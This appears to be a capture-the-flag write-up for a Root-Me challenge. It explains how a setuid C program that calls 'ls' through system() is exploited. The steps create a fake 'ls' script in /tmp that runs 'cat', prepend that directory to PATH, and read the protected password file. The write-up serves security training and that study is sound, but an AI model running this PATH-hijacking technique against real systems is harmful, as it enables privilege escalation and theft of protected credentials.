 ```
ssh -p 2222 app-script-ch12@challenge02.root-me.org
```

The code inside ch12 is

```
#include <stdlib.h>
#include <stdio.h>

int main(){
        system("ls -lA /challenge/app-script/ch12/.passwd");
        return 0;
}
```

The problem here is the use of -lA, which is not recognized by cat. But that is not a problem, we can create our own ls function.

```
mkdir /tmp/vuln
nano ls
```

In the ls file, enter
```
cat $2
```
The $2 allows us to skip the -lA argument.
Then, change the path:

```
export PATH=/tmp/vuln:$PATH
cd
./ch12
```

Get the password !
